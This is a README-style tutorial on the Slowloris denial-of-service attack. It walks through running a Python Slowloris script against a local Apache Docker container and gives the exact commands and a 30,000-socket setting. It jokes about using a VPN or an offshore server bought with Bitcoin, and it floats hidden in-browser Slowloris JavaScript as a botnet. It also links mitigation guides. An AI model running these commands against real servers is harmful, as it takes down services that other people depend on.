

# Attacking Apache Servers From a Single Machine

This README matches the contents of a [Medium post](https://medium.com/@brannondorsey/d%CC%B6dos-apache-servers-from-a-single-machine-f23e91f5d28) by the same name.

Distributed denial-of-service (DDoS) attacks are dependable, age-old, methods of bringing down remote computers and the services they provide. Attacks come in [many shapes and sizes](https://en.wikipedia.org/wiki/Denial-of-service_attack#Attack_techniques) and have been seemingly more frequent and [damaging recently](https://en.wikipedia.org/wiki/2016_Dyn_cyberattack). DDoS is effective because it leverages the bandwidth and throughput of thousands of machines, all under a single attacker's control as a botnet, to target a machine or network. The barrier-to-entry to perform DDoS attacks is control of enough machines to overpower your target. Sure, botnets can be purchased through forums and marketplaces on the darknet, but what if you wanted to DoS a server using only a single machine from the comfort of your own home (if you do this, be sure to ~~use a trusted VPN.~~ ~~use an offshore server purchase with Bitcoin.~~ wear a condom).

In this post we are going to take a look at a particularly interesting DoS attack, called the [Slowloris](https://en.wikipedia.org/wiki/Slowloris_(computer_security)), that can be used to bring down Apache servers from a single machine, without flooding them with traffic from multiple computers. The Slowloris attack, [introduced by RSnake in 2009](https://web.archive.org/web/20150315054838/http://ha.ckers.org/slowloris/), is the antithesis of DDoS: Rather than using thousands of machines to all make HTTP requests as quickly as possible, Slowloris uses one machine to open many concurrent connections to the target computer and send data as slowly as possible. By sending new HTTP header packets just fast enough to keep each connection open, enough concurrent Slowloris connections prevents legitimate traffic from being handled by the server, as the server is too busy trying to manage the attacker's connections. Slowloris attacks are effective against web servers that open each client's socket connection in a new thread, like [Apache](https://httpd.apache.org/) 1 and 2, [Flask](http://flask.pocoo.org/), and many other other web servers. Apache continues to be the most popular server on the web, holding [~50% of market share](https://w3techs.com/technologies/overview/web_server/all), making the Slowloris attack surface quite large.

Slowloris is wildly effective and we'll use it to attack a stock Apache install running on our own machine inside a [Docker container](https://opensource.com/resources/what-docker). The instructions below assume a novice comfortability with the command-line but no domain-specific DoS/hacking skills (we are all [script kiddies](https://en.wikipedia.org/wiki/Script_kiddie) of one kind or another). 

**DISCLAIMER: This article is for educational purposes only. The use of any software or methods mentioned in this article should not be used to target machines that you do not own or operate or under circumstances where doing so is illegal. The author is not responsible for any wrongdoing as a result of this article. Don't be a dick.**

## Getting Started

Begin by [installing Docker](https://docs.docker.com/engine/installation/) (Community Edition) and [Git](https://www.atlassian.com/git/tutorials/install-git) if you have not already done so. Navigate to a folder you would like to store the project in and run the following in the command line:

```bash
git clone https://github.com/brannondorsey/SlowLoris
cd SlowLoris
```

Next, we are going to download and run the stock [Apache httpd docker container](https://hub.docker.com/r/_/httpd/). 

```bash
# runs the container in the background, serves at localhost port 8888, and shares 
# the dummy www/ with the docker container to be served
docker run -d --name apache -p 8888:80 -v "$PWD/www":/usr/local/apache2/htdocs/ httpd:2.4
```

I've included a dummy website (from [htmltemplates.net](http://www.htmltemplates.net)) in `www/` that will be served by the docker container. This website will be the target service we wish to bring down. Once you've launched the docker container navigate your browser to [http://localhost:8888](http://localhost:8888) to view the target site.


## DoSing Apache

We will be using a python implementation of Slowloris that was originally authored by [wal99d](https://github.com/wal99d/SlowLoris). I've [updated](https://github.com/brannondorsey/SlowLoris) that implementation to be a bit easier to use and require no external python dependencies.

To launch a Slowloris DoS attack on our target, run:

```bash
# raise the number of simultaneously open files allowed by our OS
ulimit -n 65536
python slowloris.py --host localhost --port 8888 --max-sockets 30000
``` 

Here we are opening 30,000 concurrent connections to our target. You should see output similar to below:


With any luck, our target service should now be down. h͍͎͕̤̲͕͉̾̀̃̉̒̊a̗͇̬̼̔ͅc̨̞͇̮̟̄ͤk̮̓͌͂̆͡ ͂ͯͤ̄͏̞̠̤̰̹t͉̠̖̞̫̲̓ͥh̛̦͈͕̐̆̓̓è̹ͥ̄͊́ ̤̅̒p̱̜̟̬̻̦̫̊ͪ̚l̗̖̟͍̩͈̏͛ͤͅạ͎͓̀͒́n̤̪̘̘̫̰̗ͧ͋̇̊ͧ͂̅͜ḙ̹̝̝̤͎̓͊͂̏̋t̟̬̮͙̱ͭ̓͌ͨ̚!̲͓͍ͨ̂͊͞

[](https://www.youtube.com/watch?v=Day3oxR9Efk)

30,000 concurrent connections is an arbitrary value that I've found empirically to work well to down Apache running on my (somewhat beefy) machine. Depending on the service you are attacking, you may need to raise that number (or attack from multiple machines). By default, unix-like machines often have a ceiling to the allowed number of simultaneously open files (`1024` by default). We temporarily set this number to the maximum with `ulimit -n 65536` before executing `slowloris.py`.


Persisting thousands of socket connections is a fairly computationally expensive task, so don't be surprised to see your CPU usage spike while running `slowloris.py`. Above is an image of my CPU history while running a Slowloris attack from a 4.2GHz Quad Core i7 processor. For full `slowloris.py` usage information, see below:

```
usage: slowloris.py [-h] -i HOST -p PORT [-s MAX_SOCKETS]
                    [-r RECONNECTION_RATE] [-v]

Slowloris DoS attack (python implementation)

optional arguments:
  -h, --help            show this help message and exit
  -i HOST, --host HOST  target host
  -p PORT, --port PORT  target port
  -s MAX_SOCKETS, --max-sockets MAX_SOCKETS
                        maximum number of sockets connections to maintain with
                        host
  -r RECONNECTION_RATE, --reconnection-rate RECONNECTION_RATE
                        seconds before socket reconnections
  -v, --version         show program's version number and exit
```

## Preventing Attacks

Apache, and other thread-based web servers, are by their very nature vulnerable to Slowloris attacks. Event-based servers like the popular Nginx and lighttpd do not suffer from the same limitation and are not vulnerable to this kind of DoS attack. There are techniques and mods that can be used to configure an Apache server to be made less-vulnerable to Slowloris. If you are currently running an Apache server, see the defense links in the [_resources_ section](#resources) below for several tutorials to protecting your server against Slowloris attacks.

## Going Further

Over the course of learning about Slowloris I came across a [node.js implementation](https://github.com/timseverien/slowloris-dos) that got me thinking: Could Slowloris be written to work in the browser using XMLHTTPRequests? And if so, what a nefarious distributed attack! Consider if someone hosted minified/obfuscated Slowloris JavaScript code that ran silently in your browser whenever you visited their website (or better yet, a website that they infected to serve their malicious `.js` code). If such a site received heavy traffic, potentially thousands of clients could be connected at once, all DDoSing targets without their operator's knowledge (and without having infected their machines with a downloadable virus). Think browser as botnet.

I haven't had a chance to test this theory yet but I hope to soon. If anyone else is interested in working on this, drop me a line. 

## Resources

### Defenses

- [Detecting Slowloris](https://serverfault.com/questions/32361/how-to-best-defend-against-a-slowloris-dos-attack-against-an-apache-web-server) (serverfault.com)
- [Defense against Slowloris](https://serverfault.com/questions/32361/how-to-best-defend-against-a-slowloris-dos-attack-against-an-apache-web-server) (serverfault.com)
- [How To Mitigate Slow HTTP DoS Attacks in Apache HTTP Server](https://www.acunetix.com/blog/articles/slow-http-dos-attacks-mitigate-apache-http-server/) (acunetix.com)
- [Slowloris DOS Mitigation Guide](http://www.funtoo.org/Slowloris_DOS_Mitigation_Guide) (funtoo.org)

### Misc

- [Original Slowloris webpage by RSnake](https://web.archive.org/web/20150315054838/http://ha.ckers.org/slowloris/)
- [Defcon 17 Slowloris talk](https://vimeo.com/7618090)
- [Computerphile "Slow Loris Attack" Video](https://www.youtube.com/watch?v=XiFkyR35v2Y)
